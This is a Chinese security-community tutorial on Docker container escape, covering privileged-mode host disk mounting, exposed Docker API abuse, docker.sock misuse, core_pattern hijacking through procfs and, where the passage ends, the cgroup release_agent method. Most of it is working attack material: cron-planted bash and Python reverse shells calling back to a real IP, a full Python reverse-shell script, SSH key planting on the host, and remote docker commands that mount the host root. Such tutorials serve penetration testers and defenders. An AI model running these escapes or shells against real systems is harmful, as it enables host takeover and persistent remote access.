# Docker Escape Summary-先知社区

> **来源**: https://xz.aliyun.com/news/17969  
> **文章ID**: 17969

---

# Docker Escape Summary

## Docker环境判断

### 查看根目录

Docker 容器内部默认会有一个名为 .dockerenv 的隐藏文件，位于根目录下（/）。



我们也可以通过查看根目录下的/proc/1/cgroup文件

在 Linux 系统（包括 Docker 容器基于的 Linux 内核环境）中，/proc 是一个虚拟文件系统，其中的文件包含了有关进程的各种信息。对于容器内的进程，/proc/1/cgroup 文件内容会体现出与容器相关的一些特征。

如果包含 明显的 docker 标识 则表明处于 Docker 容器中。



但这些方法也不是一定都可以的。不然一个方法就能通杀了。。

### 查看系统环境变量

查看 hostname 的值，一般 Docker 容器的主机名会带有容器相关的标识，如下，很明显的docker id



## Docker逃逸方式

接下来我们正式进入Docker逃逸的环节。一般是拿到shell后进行的。

### 特权模式

特权模式启动命令：

docker run --privileged -d -p 5000:5000 63293757c330

特权模式逃逸是最简单有效的逃逸方法之一，当使用以特权模式（privileged参数）启动的容器时，就可以在docker容器内部 通过 mount 命令挂载外部主机磁盘设备，获得宿主机文件的读写权限。

查看当前环境是否为特权模式启动：

cat /proc/self/status | grep CapEff



CapEff 对应的掩码值应该为0000003fffffffff 或者是 0000001fffffffff

如上证明为特权模式启动！

以下命令用于列出系统中所有磁盘设备的分区信息

fdisk -l



这里的一堆loop其实也是特权模式的特征！

我们的目标其实就是此处的/dev/vda1

创建一个目录 meteorkai ，并将磁盘设备 /dev/vda1 上的文件系统挂载到 /meteorkai 目录下

```
mkdir -p /meteorkai
mount /dev/vda1 /meteorkai
```



挂载成功之后有 两种方式进行逃逸

* 添加定时任务反弹shell
* 设置ssh公钥

#### 定时任务反弹shell

（坑太多啦！！！！）

在 /var/spool/cron 目录下新建一个 root 用户的定时任务（如果/var/spool/cron/目录下存在crontabs目录，则在/var/spool/cron/crontabs目录下进行新建）

这里我们可以先ls /meteorkai/var/spool/cron/一下

echo '\* \* \* \* \* /bin/bash -c "/bin/bash -i >& /dev/tcp/156.238.233.113/4567 0>&1"' >> /meteorkai/var/spool/cron/crontabs/rootecho '\* \* \* \* \* /bin/bash -i >& /dev/tcp/156.238.233.113/4567 0>&1' >> /meteorkai/var/spool/cron/crontabs/root

注意这条命令我们要在浏览器中输入执行的话要进行url编码！否则不能执行。

同时这里有个坑！

定时任务不能写到/etc/crontab中去！写进去以后crontab -l并不会显示定时任务。

直接编辑 /etc/crontab 并不一定会被宿主机识别为当前有效的定时任务。crontab -l 查看的是当前用户的任务，而在 Docker 容器中修改的/etc/crontab 可能是系统级任务如果需要针对具体用户添加任务，需要在 /var/spool/cron 目录下新建用户名文件去添加某个用户的定时任务

还要注意不同的 Linux 发行版 定时任务存储路径也是不同的，主要有两个路径：/var/spool/cron**路径**

* **涉及系统**：Debian、Ubuntu、CentOS、RedHat 等主流 Linux 发行版。

/etc/crontabs**路径**

* **典型系统**：Alpine Linux 等轻量级发行版。

如果需要判断具体的宿主机系统版本，可以在 docker 容器中挂载了宿主机 文件后 通过如下命令进行查看

cat /etc/os-release

当我们写入计划任务后，我们直接在docker exec中看看crontab



发现是成功的！但是我们没有成功弹回shell？？

我们打印一下错误看看

\* \* \* \* \* bash -i '>& /dev/tcp/156.238.233.113/4567 0>&1'>/tmp/error.txt 2>&1

但是这条也没有被执行？

Cron 的环境与 Shell 不同，可能导致 date 等命令失效。我们用最简单的这种绝对路径的形式来试试：（注意这里root文件的权限需要为**600**，其他不会执行！！！）

\* \* \* \* \* /bin/date >> /tmp/cron\_debug.log 2>&1

发现成功生成了debug文件，说明**计划任务是会正常执行的**。

接下来我们再试试打印错误日志？改用绝对路径的形式，并赋权600。

\* \* \* \* \* /bin/bash -i >& /dev/tcp/156.238.233.113/4567 0>&1 2>/tmp/cron\_error.log

但是还是没有打印日志。

我们查看一下Ubuntu这边的日志

tail -f /var/log/syslog



个人认为应该是/dev/tcp的原因了。

问了一下AI，Cron 默认使用 /bin/sh（是 dash，而非 bash），导致 /dev/tcp 不可用。我们可以**在 Crontab 开头声明 Shell**

注意赋权600！

```
SHELL=/bin/bash
* * * * * /bin/bash -i >& /dev/tcp/156.238.233.113/4567 0>&1
```



成功弹回shell！！

那就知道了**Cron 默认使用** **/bin/sh****（是** **dash****，而非** **bash****），导致** **/dev/tcp** **不可用**

既然如此，我们也可以通过避免/dev/tcp的存在，尝试用python来弹shell！

\* \* \* \* \* /usr/bin/python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("156.238.233.113",4567));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'



在浏览器中输入的形式如下：

echo '\* \* \* \* \* /usr/bin/python3 -c "import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect((\"156.238.233.113\",4567));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\",\"-i\"])"' >> /meteorkai/var/spool/cron/crontabs/root



也是成功弹了shell！

#### 写入ssh公钥

这里其实就是我们把我们生成一对ssh密钥，将ssh公钥写入宿主机，然后我们再用生成的ssh私钥去连接即可。

这里我就不亲自实践了，因为改个ssh我vps跟终端的简单连接会断掉，懒得重新连了。。

首先是生成公钥文件与私钥文件

ssh-keygen -t rsa -b 4096 -f my\_key -N ""

将公钥文件内容写入到宿主机的 /root/.ssh/authorized\_keys 文件中，并赋予对应权限

```
echo "公钥内容" >> /meteorkai/root/.ssh/authorized_keys
chmod 600 /meteorkai/root/.ssh/authorized_keys
```

修改宿主机的 /etc/ssh/sshd\_config 文件设置一下参数

```
PubkeyAuthentication yes
PermitRootLogin yes
AuthorizedKeysFile .ssh/authorized_keys
```

设置好之后 即可通过私钥进行连接，获取宿主机 root 权限，逃逸成功。

ssh -i 私钥文件 root@ip

### Docker API未授权

Docker Remote API是一个取代远程命令行界面(RCLI)的REST API，当该接口直接暴漏在外网环境中且未作权限检查时，可以直接通过恶意调用相关的API进行远程命令执行 实现逃逸。

我们直接用vulhub的环境。

当我们访问http://156.238.233.113:2375/时，返回{"message":"page not found"}代表存在漏洞

在此之前，我们先说一下利用环境：通过对宿主机端口扫描，发现有2375端口开放，可以执行任意docker命令。我们可以据此，在宿主机上运行一个容器，然后将宿主机的根目录挂载至docker的/mnt目录下，便可以在容器中任意读写宿主机的文件了。我们可以将命令写入crontab配置文件，进行反弹shell。

使用 /version、/info 接口可以查看其他信息

创建一个 busybox:latest 镜像（轻量级），并在启动时设置参数，将宿主机的目录挂载到 镜像中的 /tmp 目录中

（注意这里的busybox镜像是在vulhub容器之中的docker！）

docker -H tcp://156.238.233.113:2375 run --rm --privileged -it -v /:/mnt busybox chroot /mnt sh

–rm 容器停止时，自动删除该容器

–privileged 使用该参数，container内的root拥有真正的root权限。否则，container内的root只是外部的一个普通用户权限。privileged启动的容器，可以看到很多host上的设备，并且可以执行mount。甚至允许你在docker容器中启动docker容器。

-v 挂载目录。格式为 系统目录:容器目录

chroot就是把根目录切换到/mnt，最后的sh就是我们使用的shell。



因为这里宿主机环境是vulhub的docker靶场，仍然为docker环境，所以暂不演示写入ssh公钥来进行权限维持，实际项目中宿主机为真实主机的情况下可以正常实现。

### Docker Socket逃逸

Docker Socket（也称为Docker API Socket）是Docker引擎的UNIX套接字文件，用于与Docker守护进程（Docker daemon）进行通信，实现执行各种操作，例如创建、运行和停止容器，构建和推送镜像，查看和管理容器的日志等。

也就是说如果这个文件被挂载了之后，就可以直接操作宿主机的docker服务，进行创建、修改、删除镜像，从而实现逃逸

这里的思路就跟Docker API未授权有点像了！

先准备一个环境

启动镜像并挂载 /var/run/docker.sock

docker run -itd -v /var/run/docker.sock:/var/run/docker.sock --name my\_ubuntu ubuntu:18.04



首先判断当前容器是否挂载了 Docker Socket，如下图，docker.sock 文件存在 则证明被挂载



由于Docker逃逸一般是在拿到shell并提权后进行的，这里我们讲解docker逃逸就跳过了前面的步骤，直接从docker容器的rce开始。

看到docker.sock存在后，我们就可以开始进行逃逸了。

接下来我们看看目标是否存在docker环境

发现不存在，那么我们手动给他安装即可。

```
apt-get update  
apt-get install curl  
curl -fsSL https://get.docker.com/ | sh
```



我们先看看docker images的结果，发现与宿主机docker images的结果一样！



接着使用该客户端通过Docker Socket与Docker守护进程通信，发送命令创建并运行一个新的容器，将宿主机的根目录挂载到新创建的容器内部



逃逸成功！

然后我们进行权限维持。



成功弹回shell



### Docker Procfs危险挂载

linux中的/proc目录是一个伪文件系统，其中动态反应着系统内进程以及其他组件的状态。如果 docker 启动时将 /proc 目录挂载到了容器内部，就可以实现逃逸。

前置知识：/proc/sys/kernel/core\_pattern文件是负责 进程崩溃时 的内存数据转储，当第一个字符是管道符|时，后面的部分会以命令行的方式进行解析并运行。并且由于容器共享主机内核的原因，这个命令是以宿主机的权限运行的。利用该解析方式，可以进行容器逃逸。

**我们将要执行的exp文件写入/proc/sys/kernel/core\_pattern，那么崩溃的时候就会去执行！**

启动一个 ubuntu 镜像，启动时将宿主机的 /proc/sys/kernel/core\_pattern文件挂载到容器/meteorkai/ 目录下

docker run -it -v /proc/sys/kernel/core\_pattern:/meteorkai/proc/sys/kernel/core\_pattern ubuntu

判断 是否挂载了宿主机的 procfs，执行下面的命令，如果找到两个 core\_pattern 文件那可能就是挂载了宿主机的 procfs

find / -name core\_pattern



第一个是容器本身的 procfs，第二个是挂载的宿主机的 procfs

接下来找到当前容器在宿主机下的绝对路径：

```
root@c41e1ec92154:/# cat /proc/mounts | xargs -d ',' -n 1 | grep workdir
workdir=/var/lib/docker/overlay2/c6cf089ecf818c04c9b32b6be35655bd0760b2957cf73fd4c27b61ccd0dde9c4/work 0 0
```

**workdir** 是分层存储的工作目录，而**merged** 是挂载点（即容器的文件系统视图）将路径中的 work 替换为 merged 就是当前容器在宿主机上面的绝对路径由下图可知 当前容器在宿主机上面的绝对路径 为：/var/lib/docker/overlay2/c6cf089ecf818c04c9b32b6be35655bd0760b2957cf73fd4c27b61ccd0dde9c4/merged



我们在其中发现了meteorkai目录，正确了！

在 /tmp 目录下创建一个 .meteor.py 文件，此文件的功能是为了反弹shell

```
cat >/tmp/.meteor.py << EOF
#!/usr/bin/python3
import os
import pty
import socket
lhost = "156.238.233.113"
lport = 4567
def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((lhost, lport))
    os.dup2(s.fileno(), 0)
    os.dup2(s.fileno(), 1)
    os.dup2(s.fileno(), 2)
    os.putenv("HISTFILE", '/dev/null')
    pty.spawn("/bin/bash")
    # os.remove('/tmp/.meteor.py')
    s.close()
if __name__ == "__main__":
	main()
EOF
```

注意接下来要给.meteor.py赋权才行，否则没有执行权限！

chmod 777 .meteor.py



前面已经知道当前容器在宿主机内的绝对路径，故而可知当前文件在宿主机内的绝对路径为/var/lib/docker/overlay2/c6cf089ecf818c04c9b32b6be35655bd0760b2957cf73fd4c27b61ccd0dde9c4/merged/tmp/.meteor.py

将此路径写入到 宿主机的 /proc/sys/kernel/core\_pattern 文件中

echo -e "|/var/lib/docker/overlay2/c6cf089ecf818c04c9b32b6be35655bd0760b2957cf73fd4c27b61ccd0dde9c4/merged/tmp/.meteor.py
core " > /meteorkai/proc/sys/kernel/core\_pattern

这里是利用 /proc/sys/kernel/core\_pattern 在系统崩溃时会自动运行，给他指定运行的脚本路径为创建的恶意脚本文件路径，通过这种方式，一旦程序发生崩溃，就会自动运行该脚本，进行反弹宿主机 shell，实现逃逸。

接下来就是想办法去让 docker崩溃，诱导系统加载 core\_pattern 文件

创建一个恶意文件

```
#include<stdio.h>
int main(void)  {
	int *a  = NULL;
	*a = 1;
	return 0;
}
```



使用 gcc 进行编译，需要使用到gcc环境，如果机器上面没有 gcc环境可以找个同核的机器编译好上传上去。这里我直接在靶场环境中 安装了 gcc

apt-get update -y && apt-get install vim gcc -ygcc exp.c -o exp

编译完成之后 攻击机 vps 开启监听，docker中运行 恶意程序使 docker 崩溃

给exp文件赋权后运行即可。





成功反弹shell！

### Cgroup配置错误

以下探讨的cgroup均为cgroup-v1版本，cgroup-v2有些变化不适用于本次讨论

Cgroups本质上是在内核中附加的一系列钩子（hook），当程序运行时，内核会根据程序对资源的请求触发相应的钩子，以达到资源追踪和限制的目的。在Linux系统中，Cgroups对于系统资源的管理和控制非常重要，可以帮助管理员更加精细化地控制资源的分配和使用

Cgroups主要实现了对容器资源的分配,限制和管理

这种攻击利用了notify\_on\_release 和 release\_agent 这两个 Cgroup 的机制，用于在 Cgroup 子目录资源被清空时执行特定的动作 实现逃逸。感觉跟上面的Procfs危险挂载的逃逸的原理有点点点点像，Procfs是通过触发进程崩溃来引发docker逃逸。

利用条件：

* 以root用户身份在容器内运行
* 使用SYS\_ADMINLinux功能运行
* 缺少AppArmor配置文件，否则将允许mountsyscall
* cgroup v1虚拟文件系统必须以读写的方式安装在容器内

环境搭建：

拉取一个 ubuntu 18.04 的镜像

docker run -itd --rm --cap-add=SYS\_ADMIN --security-opt apparmor=unconfined ubuntu:18.04

--cap-add=SYS\_ADMIN: 使用SYS\_ADMINLinux功能运行--security-opt apparmor=unconfined: 禁用 **AppArmor** 安全模块的限制



在docker容器中 执行命令判断当前主机是否符合逃逸的利用条件确保具备 SYS\_ADMIN 权限

cat /proc/self/status | grep CapEff



判断容器内挂载了 Cgroup 文件系统，且为读写模式。

```
mount | grep cgroup
ls -l /sys/fs/cgroup
```



都满足条件之后进行利用创建一个临时目录用于挂载 Cgroup 文件系统

mkdir /tmp/meteorkai

挂载 Cgroup 文件系统到临时目录中

mount -t cgroup -o memory cgroup /tmp/meteorkai

-t 用于指定文件系统类型。cgroup 表示要挂载的是一个 Cgroup 文件系统-o 用来指定挂载选项。 memory 表明挂载的是与内存（Memory）相关的 Cgroup 子系统cgroup: 指定要挂载的 Cgroup 文件系统的名称或设备

但是！！这里我们报错了！！



由于我们的cgroup是v2版本的，就不适用了！而且我们无法降低我们的cgroup版本，因为cgroup v1 还是 v2 是由宿主机的 Linux 内核决定的，而不是 Docker 镜像（如 ubuntu:18.04）决定的。

但是我们可以意淫，继续实验。

借用一下别人的图，挂载成功后是这样的



在挂载点下创建一个名为 "conf" 的子目录，用于设置特定 Cgroup 的配置

mkdir /tmp/test3/conf

启用通知机制，当 conf 子目录的任务（进程）清空时会触发内核动作

echo 1 > /tmp/test3/conf/notify\_on\_release

使用 sed 命令从 /etc/mtab 文件中解析出宿主机的路径前缀

host\_path=`sed -n 's/.\*\perdir=[^,]\*.\*/\1/p' /etc/mtab`

这里我用我的vps来展示一下这个host\_path大概是什么结果：



其实就是跟Procfs中一样的docker在宿主机中的路径。

/etc/mtab 记录了当前系统挂载的所有文件系统的信息，可以了解当前哪些设备或网络资源已经被挂载到文件系统中。

通过获取宿主机的挂载路径，就可以在容器内部使用这个路径来操作宿主机上的文件这个路径会被用于配置 release\_agent

